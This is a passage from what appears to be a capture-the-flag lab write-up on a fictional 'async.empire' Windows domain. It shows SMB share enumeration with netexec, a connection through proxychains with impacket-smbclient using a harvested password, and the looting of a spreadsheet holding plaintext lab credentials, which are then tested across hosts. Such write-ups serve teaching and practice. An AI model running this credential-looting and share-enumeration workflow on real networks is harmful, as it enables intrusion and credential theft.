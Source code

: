 ```
SMB         10.2.30.51      445    KING-DC          SYSVOL          READ            Logon server share 
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

We can connect to the SMB share and loot the `Castle_Guards_Schedule` share.

```
proxychains impacket-smbclient 'async.empire'/'Court_Jester_13':'jessisnaughty4u!'@SOUTHERN-TOWER.async.empire
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.10.11:445  ...  OK
Type help for list of commands
# shares
ADMIN$
C$
Castle_Guards_Schedule
IPC$
# use Castle_Guards_Schedule
# ls
drw-rw-rw-          0  Wed May  7 11:13:08 2025 .
drw-rw-rw-          0  Thu May  8 11:11:42 2025 ..
-rw-rw-rw-      10547  Wed May  7 11:13:05 2025 Castle_Guard_Lookout_Schedule.xlsx
-rw-rw-rw-       9716  Wed May  7 11:13:07 2025 New_Castle_Knights.xlsx
```

We can download this file and open it locally.

```
# get New_Castle_Knights.xlsx

ssconvert New_Castle_Knights.xlsx New_Castle_Knights.csv

cat New_Castle_Knights.csv                      
"🏰 New Castle Knight Credentials - Async Empire",,,,,
Name,Username,Password,"Referred By","Platoon No.","Commanding Officer"
Castle_Guard_29,Castle_Guard_29@async.empire,oZ5pLcXj1R,"Knight-Captain Thorne","Platoon 7","Commander Virel"
Castle_Guard_30,Castle_Guard_30@async.empire,vTxrY1cL0D,"Knight-Captain Elira","Platoon 9","Commander Halberd"
```

With either of the new users, we can re-enumerate the shares, but we find no new results.

```
proxychains -q nxc smb targets.txt -u 'Castle_Guard_29' -p 'oZ5pLcXj1R' --shares                              
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)                                                                                                                                                             
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [+] async.empire\Castle_Guard_29:oZ5pLcXj1R 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Castle_Guard_29:oZ5pLcXj1R 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Enumerated shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   Share           Permissions     Remark
SMB         10.2.10.11      445    SOUTHERN-TOWER   -----           -----------     ------
SMB         10.2.10.11      445    SOUTHERN-TOWER   ADMIN$                          Remote Admin
SMB         10.2.10.11      445    SOUTHERN-TOWER   C$                              Default share
```